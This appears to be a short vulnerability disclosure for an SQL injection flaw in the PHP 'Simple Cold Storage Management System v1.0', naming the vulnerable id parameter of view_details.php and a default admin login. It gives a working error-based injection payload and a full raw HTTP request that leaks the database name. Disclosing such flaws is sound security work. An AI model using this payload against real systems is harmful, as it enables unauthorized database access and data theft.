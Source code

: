 # Simple Cold Storage Management System v1.0 by oretnom23 has SQL injection

BUG_Author: fate@root

Login account: admin/admin123 (Super Admin account)

vendors: https://www.sourcecodester.com/php/15088/simple-cold-storage-management-system-using-phpoop-source-code.html

The program is built using the xmapp-php8.1 version

Vulnerability File: /csms/admin/inquiries/view_details.php?id=

Vulnerability location: /csms/admin/inquiries/view_details.php?id=, id

dbname =csms_db,length=7

[+] Payload: /csms/admin/inquiries/view_details.php?id=2%27%20and%20updatexml(1,concat(0x7e,(select%20database()),0x7e),0)--+ // Leak place ---> id

```sql
GET /csms/admin/inquiries/view_details.php?id=2%27%20and%20updatexml(1,concat(0x7e,(select%20database()),0x7e),0)--+ HTTP/1.1
Host: 192.168.1.88
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:46.0) Gecko/20100101 Firefox/46.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
DNT: 1
Cookie: PHPSESSID=d8pesjl7i2jtmf2qddggbp7q0b
Connection: close
```

![image](https://user-images.githubusercontent.com/54017627/191013486-cde8fd91-f0ba-40a9-ab31-5c7fa5de22ed.png)

